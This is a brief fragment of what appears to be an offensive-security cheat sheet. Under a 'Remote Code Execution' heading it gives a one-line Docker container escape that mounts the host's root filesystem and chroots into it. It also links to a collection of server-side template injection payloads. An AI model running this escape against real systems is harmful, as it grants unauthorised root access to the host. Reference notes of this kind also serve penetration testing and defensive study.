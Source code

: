 ## Remote Code Execution





**Escape Docker Container**

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh 
```

---


---

---

## Server-side template injection

* [SSTI Payloads on GitHub](https://github.com/payloadbox/ssti-payloads)

---






---






